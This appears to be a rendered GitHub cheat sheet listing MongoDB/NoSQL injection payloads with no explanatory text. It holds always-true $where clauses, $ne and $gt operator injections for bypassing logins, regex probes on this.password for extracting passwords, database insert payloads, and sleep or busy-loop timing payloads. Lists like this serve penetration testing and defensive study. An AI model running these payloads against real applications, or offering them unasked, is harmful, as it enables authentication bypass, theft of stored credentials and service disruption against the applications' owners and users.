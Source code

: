 ```
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
```

```javascript
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;
db.stores.mapReduce(function() { { emit(1,1
```

```javascript
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
```

```json
{ "$gt": "" }
{$gt: ''}
[$ne]=1
```

```javascript
';sleep(5000);
';sleep(5000);'
';sleep(5000);+'
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true"
```

</details>
```
